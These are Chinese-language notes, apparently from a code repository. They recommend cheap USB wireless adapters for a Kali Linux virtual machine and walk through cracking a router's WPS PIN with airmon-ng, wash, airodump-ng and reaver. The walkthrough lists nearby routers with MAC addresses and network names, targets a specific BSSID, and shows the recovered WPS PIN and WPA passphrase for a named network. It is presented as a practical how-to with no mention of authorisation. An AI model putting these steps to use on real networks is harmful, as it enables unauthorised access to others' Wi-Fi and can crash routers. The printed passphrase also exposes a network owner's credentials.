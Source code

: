         ❗️❗️❗️不是所有无线网卡都能在Linux下运行的!!要看型号的.❗️❗️❗️
        ❗️❗️❗️不是所有无线网卡都能在Linux下运行的!!要看型号的.❗️❗️❗️

          🔸 查看虚拟机无线网卡情况
              ifconfig → 出现类似 wlan0的(wlan开头的)才说明虚拟机识别到了无线网卡.
              如果你用虚拟机运行Kali. 不用外置的USB网卡 是永远也不会有wlan网卡出现的.
              别多想了. 20块钱的WNA1100无线网卡. 最最便宜的了.买吧.

          🔸 Kali 虚拟机推荐USB网卡:
              - Netgear WNA1100 我用的那个...淘宝 20块钱一个!!!
              - TP-LINK WN722N 要v1版本. 不要V2版本.贵! 得150￥+  不推荐..... 

          🔸 Kali VM虚拟机无线网卡驱动
              Netgear WNA1100 至少在 kali 2016.2 版本是免驱的. 插上连到虚拟机就能用










⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️--WPS 破解---⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

如果发送pin码过快，有可能造成路由器崩溃；就类似对服务器的DDOS攻击。

🔅 airmon-ng start wlan0 && wash -i wlan0mon  开启无线网卡监控模式 并  查看四周开启wps的 wifi  
🔅 airodump-ng wlan0mon    查看四周所有 wifi      

BSSID                  Channel       RSSI       WPS Version       WPS Locked        ESSID
------------------------------------------------------------------------------------------
F0:B4:29:DA:BB:84       8            00        1.0               No                (null)
A8:57:4E:D1:ED:6A      11            00        1.0               No                T2-20B
50:BD:5F:4C:44:C7       3            00        1.0               No         Birdhouse 2.4G

如果什么也没有表示周围没有开启WPS的无线路由器。记住要破解wifi的BSSID。
wps locked 下是no  ➜  wps 没有被关闭.  ➜ 也就是说wps是开启的...

🔅 reaver -i wlan0mon -b E4:D3:32:B4:83:BC -vv -a    开始破解 接下来就是等... 2-10个小时...
   👁‍🗨 有些路由器对pin破解次数有一点限制. 会自动停止几秒.再自动破解. 反正等就是了..

    [+] Sending M2 message
    [P] E-Hash1: 59:24:ff:26:5d:e6:7f:54:d5:ef:aa:fa:5b:15:25:8e:5b:d1:3e:3d:db:bf:69:92:a6:ef:20:ad:23:ad:10:d9
    [P] E-Hash2: 9d:be:01:06:88:40:4d:ef:61:7d:6e:0d:e7:12:bc:6f:88:fd:b6:34:d2:9d:67:22:0b:b4:72:9d:dd:87:aa:e0
    [+] Received M3 message
    [+] Sending M4 message
    [+] Received M5 message
    [+] Sending M6 message
    [+] Received M7 message
    [+] Sending WSC NACK
    [+] Sending WSC NACK
    [+] Pin cracked in 31654 seconds
    [+] WPS PIN: '31070003'
    [+] WPA PSK: 'njs236121'
    [+] AP SSID: 'MERCURY_210'
